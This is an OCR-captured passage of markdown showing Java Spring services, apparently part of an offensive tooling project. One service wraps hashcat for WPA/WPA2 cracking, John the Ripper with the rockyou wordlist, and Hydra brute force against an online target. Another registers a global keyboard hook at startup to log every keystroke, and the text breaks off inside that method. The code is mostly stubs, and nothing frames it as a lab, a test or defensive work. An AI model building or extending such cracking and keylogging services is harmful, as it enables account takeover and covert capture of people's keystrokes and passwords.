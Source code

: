#### **Password Cracking:**
```java
@Service
public class ProfessionalCrackingService {
    
    // Use Hashcat for GPU-accelerated cracking
    public CrackResult crackWithHashcat(String hashFile, String wordlist) {
        ProcessBuilder pb = new ProcessBuilder(
            "hashcat",
            "-m", "22000",  // WPA/WPA2
            "-a", "0",      // Dictionary attack
            "-w", "3",      // Workload profile
            "--status",
            hashFile,
            wordlist
        );
        // Parse hashcat output
    }
    
    // Use John the Ripper for rule-based attacks
    public CrackResult crackWithJohn(String hashFile) {
        ProcessBuilder pb = new ProcessBuilder(
            "john",
            "--wordlist=/usr/share/wordlists/rockyou.txt",
            "--rules=best64",
            hashFile
        );
        // Parse john output
    }
    
    // Use Hydra for online services
    public CrackResult bruteforceService(String target, String service) {
        ProcessBuilder pb = new ProcessBuilder(
            "hydra",
            "-L", "users.txt",
            "-P", "passwords.txt",
            "-t", "4",
            target,
            service
        );
        // Parse hydra output
    }
}
```

#### **Keylogging:**
```java
@Service
public class ProfessionalKeyloggerService implements NativeKeyListener {
    
    @PostConstruct
    public void init() {
        try {
            GlobalScreen.registerNativeHook();
            GlobalScreen.addNativeKeyListener(this);
        } catch (NativeHookException e) {
            log.error("Failed to register native hook", e);
        }
    }
    
    @Override
    public void nativeKeyPressed(NativeKeyEvent e) {
        String keyText = NativeKeyEvent.getKeyText(e.getKeyCode());
        // Log securely (encrypted)
```